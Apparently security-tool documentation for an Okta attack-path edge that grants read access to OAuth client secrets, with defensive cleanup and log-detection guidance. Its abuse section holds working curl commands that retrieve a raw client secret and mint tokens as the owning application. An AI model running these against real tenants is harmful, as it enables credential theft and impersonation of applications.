

## General Information

The traversable Okta_ReadClientSecret edges represent permissions that allow a principal to read OAuth client secrets for scoped Okta applications. These edges are created for the **Application Administrator**, **API Access Management Administrator**, and **Read-only Administrator** built-in roles and for custom roles with the `okta.apps.clientCredentials.read` permission.



## Abuse Info

An attacker who controls the source principal can read the raw value of the destination `Okta_ClientSecret`, then follow `Okta_SecretOf` to authenticate as the application that owns that secret. This edge is different from `Okta_SecretOf`: `Okta_ReadClientSecret` describes permission to retrieve the secret value from Okta, while `Okta_SecretOf` describes what the recovered secret can authenticate to.

For a user source, authenticate as that user. For a group source, compromise any member of the source group first. For an application source, authenticate as the source service app with its configured client authentication method and obtain an OAuth bearer token with the required Okta scopes. Follow the destination secret's `Okta_SecretOf` edge to identify the owning application before requesting the secret.

Using the Admin Console:

1. Authenticate to Okta as the source user, as a member of the source group, or as an administrator-equivalent session for the source principal.
2. Identify the owning application by following `Okta_SecretOf` from the destination `Okta_ClientSecret`.
3. Open **Applications** > **Applications** and select the owning application.
4. On the **General** tab, inspect **Client Credentials** and match the destination secret by secret ID, hash, status, and timestamps.
5. Copy or reveal the client secret if the UI permits it. If the existing secret cannot be revealed, use the API path below; the edge exists because the source principal has permission to read client credentials.
6. Use the application's client ID and recovered client secret to mint an access token.
7. Continue along the owning application's downstream edges, such as `Okta_SecretOf`, `Okta_SuperAdmin`, `Okta_OrgAdmin`, `Okta_AppAdmin`, or SaaS-specific outbound edges.

Using the Okta API:

1. Set the source principal API credential, destination app ID from `Okta_SecretOf`, destination secret ID, and the token endpoint/scope you intend to request as the owning application.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED_SOURCE_PRINCIPAL_TOKEN"
    export TARGET_APP_ID="0oa..."
    export TARGET_SECRET_ID="ocs..."
    export TOKEN_ENDPOINT="$OKTA_ORG/oauth2/default/v1/token"
    export TOKEN_SCOPE="custom.scope"
    ```

    The examples use `Authorization: SSWS $OKTA_API_TOKEN`. If the source is a service app using OAuth for Okta, replace that header with `Authorization: Bearer $SOURCE_OKTA_ACCESS_TOKEN` and ensure the token has the required Okta scopes.

2. Retrieve the owning application and capture its client ID.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID" \
      | tee /tmp/okta-readsecret-app.json

    export CLIENT_ID="$(jq -r '.credentials.oauthClient.client_id // .id' /tmp/okta-readsecret-app.json)"
    jq -r '{id, label, status, client_id: .credentials.oauthClient.client_id, auth_method: .credentials.oauthClient.token_endpoint_auth_method}' /tmp/okta-readsecret-app.json
    ```

3. Retrieve the destination client secret value.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/secrets/$TARGET_SECRET_ID" \
      | tee /tmp/okta-readsecret-secret.json

    export CLIENT_SECRET="$(jq -r '.client_secret' /tmp/okta-readsecret-secret.json)"
    jq -r '{id, status, secret_hash, created, lastUpdated}' /tmp/okta-readsecret-secret.json
    ```

    A successful response includes the raw `client_secret` value. If only a hash is available, verify that the source principal actually has `okta.apps.clientCredentials.read` or an equivalent built-in role.

4. Mint a token as the owning application using the recovered secret.

    ```bash
    curl -sS -X POST \
      -u "$CLIENT_ID:$CLIENT_SECRET" \
      -H "Accept: application/json" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      --data-urlencode "grant_type=client_credentials" \
      --data-urlencode "scope=$TOKEN_SCOPE" \
      "$TOKEN_ENDPOINT" \
      | tee /tmp/okta-readsecret-token.json

    export OKTA_ACCESS_TOKEN="$(jq -r '.access_token' /tmp/okta-readsecret-token.json)"
    ```

    A successful response contains `token_type`, `expires_in`, `scope`, and `access_token`.

5. Verify the token against an API allowed by the owning application. For an Okta Management API token with an Okta scope, call a matching Okta endpoint with `Authorization: Bearer`.

    ```bash
    curl -sS \
      -H "Authorization: Bearer $OKTA_ACCESS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps?limit=1" \
      | jq -r '.[] | [.id, .label, .status] | @tsv'
    ```

    If the token is for a custom authorization server or downstream API, verify it against that downstream resource server instead.

## Cleanup after Abuse

Cleanup for `Okta_ReadClientSecret` means treating the destination client secret as exposed, rotating or deleting it, revoking tokens minted with it where possible, and removing any temporary access used to read it.

Cleanup using Admin Console:

1. Open **Applications** > **Applications** and select the application that owns the destination `Okta_ClientSecret`.
2. On the **General** tab, go to **Client Credentials**.
3. Generate a replacement secret and update the legitimate integration to use it.
4. Deactivate the exposed destination secret after the replacement is in use.
5. Delete the inactive exposed secret if it is no longer needed.
6. Remove any temporary group membership, role assignment, or application admin access that was added to give the source principal `Okta_ReadClientSecret`.
7. Revoke downstream tokens or sessions issued to the owning application where supported.
8. Verify the exposed secret can no longer mint tokens and the source principal no longer has unintended secret-read access.

Cleanup using API:

1. Set cleanup variables for the exposed destination secret, any minted token, and any temporary group membership used to reach the source principal.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export TARGET_APP_ID="0oa..."
    export TARGET_SECRET_ID="ocs..."
    export CLIENT_ID="0oa..."
    export OLD_CLIENT_SECRET="REDACTED_EXPOSED_SECRET"
    export TOKEN_SCOPE="custom.scope"
    export TOKEN_ENDPOINT="$OKTA_ORG/oauth2/default/v1/token"
    export REVOKE_ENDPOINT="$OKTA_ORG/oauth2/default/v1/revoke"
    export MINTED_ACCESS_TOKEN="eyJ..."
    export TEMP_GROUP_ID="00g..."
    export ATTACKER_USER_ID="00u..."
    ```

2. Create a replacement secret for the owning application.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d '{}' \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/secrets" \
      | tee /tmp/okta-readsecret-replacement.json

    export NEW_CLIENT_SECRET="$(jq -r '.client_secret' /tmp/okta-readsecret-replacement.json)"
    export NEW_SECRET_ID="$(jq -r '.id' /tmp/okta-readsecret-replacement.json)"
    ```

3. Confirm both the replacement and exposed secret records before changing production.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/secrets" \
      | jq -r '.[] | [.id, .secret_hash, .status, .created, .lastUpdated] | @tsv'
    ```

4. After the legitimate integration uses `NEW_CLIENT_SECRET`, deactivate the exposed destination secret.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/secrets/$TARGET_SECRET_ID/lifecycle/deactivate"
    ```

    A successful response returns the secret with `status` set to `INACTIVE`.

5. Delete the inactive exposed secret.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/secrets/$TARGET_SECRET_ID"
    ```

    A successful delete returns `204 No Content`.

6. Revoke a known token minted with the exposed secret. Token revocation returns `200 OK` even when the token is already invalid.

    ```bash
    curl -i -sS -X POST \
      -u "$CLIENT_ID:$NEW_CLIENT_SECRET" \
      -H "Accept: application/json" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      --data-urlencode "token=$MINTED_ACCESS_TOKEN" \
      --data-urlencode "token_type_hint=access_token" \
      "$REVOKE_ENDPOINT"
    ```

7. Remove temporary membership if the attacker joined a group to become the source principal for this edge.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TEMP_GROUP_ID/users/$ATTACKER_USER_ID"
    ```

    A successful removal returns `204 No Content`.

8. Verify the old secret can no longer mint tokens.

    ```bash
    curl -i -sS -X POST \
      -u "$CLIENT_ID:$OLD_CLIENT_SECRET" \
      -H "Accept: application/json" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      --data-urlencode "grant_type=client_credentials" \
      --data-urlencode "scope=$TOKEN_SCOPE" \
      "$TOKEN_ENDPOINT"
    ```

    The expected result is an OAuth error such as `invalid_client`.

9. Verify the source principal's read path is gone if cleanup removed temporary membership or role access.

    ```bash
    curl -i -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/credentials/secrets/$TARGET_SECRET_ID"
    ```

    If the secret was deleted, the expected result is `404 Not Found`. If only source access was removed, repeat the request with the former source principal's credential and expect `403 Forbidden`.

## Opsec Considerations

Reading a client secret through Okta and then using it creates two audit trails: the secret-read event under the source principal and OAuth/API activity under the owning application. Relevant System Log event types include `app.oauth2.client.read_client_secret`, `app.oauth2.credentials.lifecycle.create`, `app.oauth2.credentials.lifecycle.activate`, `app.oauth2.credentials.lifecycle.deactivate`, `app.oauth2.credentials.lifecycle.delete`, `app.oauth2.invalid_client_credentials`, `app.oauth2.token.revoke`, and `app.oauth2.as.token.revoke`.

Defenders should correlate the source principal, owning application, secret ID/hash, source IP, user agent, and requested scopes. Reading a secret shortly before an unusual client-credentials token grant, creating a second secret outside a deployment window, or using the client from a new network is a strong signal. If the source is a group, also review group membership changes; if the source is an application, review service-app role assignment and token issuance events.

## References

- [Okta Application OAuth 2.0 client secret API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationSSOCredentialOAuth2ClientAuth/)
- [Okta Applications API: Retrieve an application](https://developer.okta.com/docs/reference/api/apps/#retrieve-an-application)
- [Okta client secret rotation](https://developer.okta.com/docs/guides/client-secret-rotation-key/main/)
- [Okta client authentication methods](https://developer.okta.com/docs/api/openapi/okta-oauth/guides/client-auth/)
- [Okta revoke tokens](https://developer.okta.com/docs/guides/revoke-tokens/main/)
- [Okta custom role permissions](https://developer.okta.com/docs/api/openapi/okta-management/guides/permissions/)
- [Okta Group API: Unassign a user from a group](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/#tag/Group/operation/unassignUserFromGroup)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Okta manage secrets and keys for OIDC apps](https://help.okta.com/en-us/Content/Topics/apps/oauth-client-cred-mgmt.htm)
- [Adam Chester: Okta for Red Teamers](https://blog.xpnsec.com/okta-for-redteamers/)
- [Okta Post-Exploitation Toolkit](https://github.com/xpn/OktaPostExToolkit)
